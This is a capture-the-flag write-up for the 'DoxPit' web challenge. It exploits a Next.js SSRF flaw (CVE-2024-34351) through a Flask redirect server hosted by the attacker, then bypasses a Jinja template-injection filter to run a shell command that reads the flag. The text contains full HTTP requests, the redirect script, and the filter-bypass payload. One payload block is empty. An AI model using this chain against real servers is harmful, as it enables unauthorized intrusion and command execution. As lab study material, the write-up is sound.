






# Challenge: DoxPit
# Rate: Medium

The WebApp is using Next.js version 14.1.0 which has [CVE-2024-34351](https://www.assetnote.io/resources/research/advisory-next-js-ssrf-cve-2024-34351).



So we can perform an SSRF attack.

```
POST / HTTP/1.1
Host: attacker.com
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

If we analyze the source code, there are two projects that exist in the folder. The `av` is written with Flask and is only accessible from local.



Examining more of this project we can see some routes: `/`, `/home`, `/register`, `/login`, `/logout`

- `routes.py`:
    
    ```python
    # more ...
    
    def auth_middleware(func):
      def check_user(*args, **kwargs):
        db_session = Database()
    
        if not session.get("loggedin"):
          if request.args.get("token") and db_session.check_token(request.args.get("token")):
            return func(*args, **kwargs)
          else:
            return redirect("/login")
    
        return func(*args, **kwargs)
    
      check_user.__name__ = func.__name__
      return check_user
      
    
    @web.route("/", methods=["GET"])
    def index():
      return redirect("/home")
      
    # more ...
    
    @web.route("/login", methods=["GET"])
    def login():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ...
    
    @web.route("/register", methods=["GET"])
    def register():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ... 
    ```
    

Now after examining the detailed [exploit of CVE-2024-34351](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps), we are able to send a request to the Flask web app by the below scenario:

1. `flaskRedirect.py`
    
    ```python
    from flask import Flask, Response, request, redirect
    app = Flask(__name__)
    
    @app.route('/', defaults={'path': ''})
    @app.route('/<path:path>')
    def catch(path):
        if request.method == 'HEAD':
            resp = Response("")
            resp.headers['Content-Type'] = 'text/x-component'
            return resp
        return redirect('http://0.0.0.0:3000/register?username=new&password=new')
    
    app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
    ```
    
2. Host the `flaskRedirect.py` on your controlled server.
3. Send this request:
    
    ```
    POST / HTTP/1.1
    Host: yourserver.com:1234
    Content-Length: 2
    Accept: text/x-component
    Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
    Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US,en;q=0.9
    Connection: keep-alive
    
    []
    ```
    

After sending this request a user is created for you. Here is the response of the Web App:



Now we have the token and have access to all routes.





As we can see the code is loading files using Jinja templates. so we can try SSTI.


But here’s the thing. There are some preventions in these files that limit us from performing SSTI attacks. So we can not use `{{`, `}}`, `.`, `_`, `[`, `]`, `\`, `x` in our payload.

Looking at common payloads in [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), we can easily find this payload:

```python

```

The only problem with the above payload is it uses `\` but we can not use it because it’s forbidden.

If we research about different payload structures in Jinja, we can find these things that work:

```python
&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*
```

Now modify `flaskRedirect.py` again:

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://0.0.0.0:3000/home?token=56021495728f15002281f3999bb6f204&directory=&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*')

app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
```

Send the request again:

```
POST / HTTP/1.1
Host: yourserver.com:1234
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

And get the Flag:


